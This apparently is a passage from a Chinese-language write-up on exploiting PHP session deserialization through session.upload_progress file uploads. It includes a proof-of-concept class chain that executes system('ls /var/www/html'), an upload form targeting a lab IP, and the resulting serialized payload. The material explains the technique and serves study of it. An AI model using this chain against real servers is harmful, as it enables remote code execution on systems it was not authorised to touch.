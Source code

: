 值为`|`后面的序列化字符串反序列化后的数据(因为php处理器存储的格式是：键名|反序列后的值)

<br>

当前代码的话没有向服务器提交数据，但是现在session.upload_progress.enabled是开启的，所以可以通过上传文件，从而在session文件中写入数据

<br>

* POC

```
<?php
class foo3{
    public $varr;
    function __construct(){
        $this->varr = 'system(\'ls /var/www/html\');';
    }
}
 
class foo2{
    public $varr;
    public $obj;
    function __construct(){
        $this->varr = '1';
        $this->obj = new foo3();
    }
}
 
class foo1{
    public $varr;
    function __construct(){
        $this->varr = new foo2();
    }
}
 
echo serialize(new foo1());
?>
```

* 上传表单

这里的action只要是服务器上代码中有session_start()的php文件即可

```
<form action="http://192.168.3.136/index.php" method="POST" enctype="multipart/form-data">        
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />        
    <input type="file" name="file" />        
    <input type="submit" />
</form>
```

### 0x04 利用
* 首先利用poc生成序列化的payload

```
O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:27:"system('ls /var/www/html');";}}}
```
